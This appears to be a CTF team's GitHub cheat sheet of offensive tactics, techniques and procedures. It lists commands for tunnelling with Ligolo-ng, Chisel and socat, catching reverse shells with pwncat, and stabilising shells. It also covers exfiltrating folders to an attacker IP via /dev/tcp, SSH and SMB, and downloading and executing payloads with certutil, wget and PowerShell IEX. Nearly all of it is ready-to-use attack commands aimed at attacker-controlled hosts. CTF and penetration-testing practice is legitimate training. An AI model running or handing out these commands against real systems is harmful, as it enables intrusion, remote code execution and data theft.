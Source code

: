 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
  - [CrackMapExec](CrackMapExec.md)
- [Reverse Shell](#reverse-shell)
- [Stabilizing Linux shell](#stabilizing-linux-shell)
- [Exfiltrating Data](#exfiltrating-data)
- [Port forwarding](#port-forwarding-1)
- [Transfering files](#transfering-files)
- [Sliver](Sliver.md)
- [SQL Injection](SQL%20Injection.md)
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```

## Reverse Shell
[source](https://github.com/calebstewart/pwncat)
```
pip install pwncat-cs
Listener: pwncat-cs 192.168.1.1 4444
(To change from pwncat shell to local shell, use Ctrl+D)
```

## Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

## Exfiltrating Data
### Linux
### via TCP socket, ebcdic and base64
On kali:
```
nc -nlvp 80 > datafolder.tmp
```
On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### via SSH
On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
On kali:
```
cd /tmp/datafolder
```
### Windows
via SMB server:
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -username user -password pass share . -smb2support  # On kali
net use \\10.10.16.5\share /u:user pass   # On victim
copy C:\Users\user\Desktop\somefile.txt \\10.10.16.5\share\somefile.txt   # On victim
```
via pscp:
```
pscp Administrator@10.10.10.10:/Users/Administrator/Downloads/something.txt
```

## Port forwarding
### SSH:
On kali:
```
ssh -N -L 80:localhost:80 user@10.10.10.10 -C
```
### Chisel:
```
./chisel server -p 8000 --reverse #Server -- Attacker
./chisel client 10.10.16.3:8000 R:100:172.17.0.1:100 #Client -- Victim
```
### Socat:
On victim:
```
socat tcp-listen:8080,reuseaddr,fork tcp:localhost:9200 &
```
### Netcat:
On victim:
```
nc -nlvp 8080 -c "nc localhost 1234"
```
## Transfering files
### Windows
cmd:
```
iwr -uri "http://10.10.10.10:8080/shell.exe" -outfile "shell.exe"

wget -O shell.exe 10.10.10.10:8000/shell.exe

certutil -urlcache -f  http://10.10.10.10:8000/shell.exe C:\inetpub\shell.exe
```
Powershell:
```
Invoke-WebRequest http://10.10.10.10:8000/shell.exe -OutFile shell.exe

powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/shell.exe', 'shell.exe')"

powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/something.ps1')"
```
via SMB:
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .    # On attacker

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe    # On target
```
### Linux
```
wget http://10.10.10.10:8000/some.sh

curl -o some.sh http://10.10.10.10:8000/some.sh
```
via base64:
```
cat shell.sh | base64 -w 0   # On attacker
echo <base64encoded> | base64 -d > shell.sh   # On target
```
via scp:
```
scp some.sh user@10.10.10.10:/tmp/some.sh   # On attacker
```

